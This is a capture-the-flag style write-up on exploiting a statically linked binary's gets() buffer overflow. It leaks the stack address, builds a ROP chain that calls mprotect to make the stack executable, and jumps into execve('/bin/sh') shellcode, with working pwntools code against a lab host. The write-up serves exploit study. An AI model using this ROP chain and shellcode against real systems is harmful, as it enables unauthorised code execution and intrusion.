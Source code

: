 # MPROTECT

## Binary information

Running file on the binary we see that it is statically linked. So compared to the previous task, now we cannot overwrite contents of the GOT table and perform a `ret2libc` attack.

![Statically Linked](images/static.png)

Running checksec on the file reveals that the binary has **NX** enabled, which means we cannot execute shellcode. (yet)

![Checksec](images/checksec.png)

Executing the binary we can see that it asks for input and after that it just exits.

![Binary](images/binary.png)

## Reversing

Decompiling the binary using Ghidra we see that the vulnerability is obvious. The binary reads input in a buffer of size `32` using `gets` function.

![vulnerability](images/vulnerability.png)

Since the binary is `statically linked` we know that there is something to do with it. After looking at the symbols we see that we have the function `mprotect` available.

Mprotect is a system call in Linux that changes the permission of a memory region. We can use this to change the permission of the stack to `executable` and then execute our.

Mprotect takes 3 arguments:

- `addr`: The start address of the memory region whose permissions are to be changed.
- `len`: The length of the memory region whose permissions are to be changed.
- `prot`: The new permissions for the memory region.

One thing to note is that addr must be page aligned. In this case we assume that the page size is 4096 bytes so at least the last 12 bits of the address must be zero.

![mprotect](images/mprotect.png)

## Exploitation

But where is the start address of the page? We do not know where the stack is in memory at runtime. Luckily, the `__libc_stack_end` symbol is included in the binary. This symbol points to the end of the stack. We can use puts to leak this address

By following `x86_64` calling convention, the first argument is passed in `rdi`, the second in `rsi` and the third in `rdx`.

![calling convention](images/callingConvention.png)

So we need to see if we can find the `ROP gadgets` that would help us set these three arguments. Using `ROPgadget` we see that we have the following gadgets:

![ROP gadgets](images/ROPgadgets.png)

Let's see what we have so far:

1. We have a buffer overflow vulnerability.
2. We have the `mprotect` function available.
3. We can leak the address of the end of the stack.
4. We can make the stack executable.

Let's see how the exploit looks until here. After printing the leaked address we jump to main again to read another payload.

```python
from pwn import *

io = remote("10.10.101.248", 9010)

stack_end_sym_addr = p64(0x004bfa70)

io.recvuntil(" libc 😏")
io.clean()

payload = b'A' * 40
popRDIAddr = p64(0x40191a) #pop rdi; ret
popRSIAddr = p64(0x40f4de) # pop rsi ; ret
popRDXAddr = p64(0x40181f) # pop rdx ; ret

payload += popRDIAddr
payload += stack_end_sym_addr
payload += p64(0x00411bd0) #puts addr
payload += p64(0x00401e61) #main addr

io.sendline(payload)
endAddrOfStack = u64(io.recvline().strip().ljust(8, b'\x00'))
```

Now we should have the address of the end of the stack. Let's make the stack executable.

```python
pageAddress = endAddrOfStack & 0xffffffffffff0000 # change permission of 0x10000 bytes to be sure we include our payload

io.recvuntil(" libc 😏")
io.clean()

# int mprotect (void * __addr, size_t __len, int __prot)
#                   RDI             RSI         EDX
payload = b'A' * 40

payload += popRDIAddr
payload += p64(pageAddress)

payload += popRSIAddr
payload += p64(0x10000) # length

payload += popRDXAddr
payload += p64(0x7) #permissions RWX

payload += p64(0x00449b70) #mroptect addr
```

After executing the code above, if we look with the debugger we can see that we have the whole stack as `RWX`.

![RWX](images/RWX.png)

Now we can write and execute our shellcode, but how do we modify the IP to point to our shellcode? We can use the the following gadget:

- `0x0000000000463c43 : jmp rsp`

When exiting the `mprotect` function, we pop into RIP the address of the gadget above. Then if the shellcode is right after that address, RSP will point straight to it, because it got incremented during the RET instruction.

For this exploit I have used a simple `execve(/bin/sh)` shellcode from [exploit-db](https://www.exploit-db.com/exploits/47008).

Remotely I had to add an extra ret instruction for stack alignment.

```python
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

jmpRSPAddr = p64(0x463c43) # jmp rsp
payload += jmpRSPAddr
payload += p64(0x00401eac) #ret for movaps allignment
payload += shellcode

io.sendline(payload)
io.interactive()
```
